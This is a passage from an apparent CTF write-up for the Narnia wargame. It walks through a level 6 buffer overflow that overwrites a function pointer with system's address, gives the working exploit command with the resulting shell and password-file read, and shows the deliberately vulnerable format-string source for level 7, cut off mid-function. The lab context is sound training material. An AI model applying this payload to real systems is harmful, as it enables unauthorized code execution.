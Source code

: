 What I did here was to disassemble the `main` function and find out where
`fp` is getting called, so that I can set a breakpoint on it. Then I
run the binary and inspect the stack before the call to `fp`. What we see is
that `$esp` points to `0xffffd6a0`, which is where the last 4 values of
`b2` are stored. This is also the argument that will be passed to the `fp` call.
Function arguments are pushed onto the stack before a function is called. So
We want this to point to `/bin/sh`, and we want `fp` to point to `system`. This is
the reason for the `p system`, it tells us the location of `system`.
Also note that our `segfault` is showing us the last
4 digits of `b1`. Perfect, I can use that to overwrite `fp` with the address of
`system` and I should be good to go.

As this is a little more advanced, let's go over the steps:

- Get the address of the argument to whatever `fp` points to
- Figure out how to overwrite that with our argument
- Get the address of `system`
- Overwrite what `fp` points to with `system`'s address 
- Assemble payload and hopefully get a shell

So the last step:

{% highlight console %}
narnia6@melinda:/narnia$ /games/narnia/narnia6 `python -c "print 'a'*8 + '\xd0\x2c\xe6\xf7' +' '+ 'b'*8 + '/bin/sh'"`
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
[password]
{% endhighlight %}

## Level 07 ##

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
    char buffer[128];
    int (*ptrf)();

    memset(buffer, 0, sizeof(buffer));
    printf("goodfunction() = %p\n", goodfunction);
    printf("hackedfunction() = %p\n\n", hackedfunction);

    ptrf = goodfunction;
    printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

    printf("I guess you want to come to the hackedfunction...\n");
    sleep(2);
    ptrf = goodfunction;

    snprintf(buffer, sizeof buffer, format);

    return ptrf();
}

int main(int argc, char **argv){
    if (argc <= 1){
            fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
            exit(-1);
    }
    exit(vuln(argv[1]));
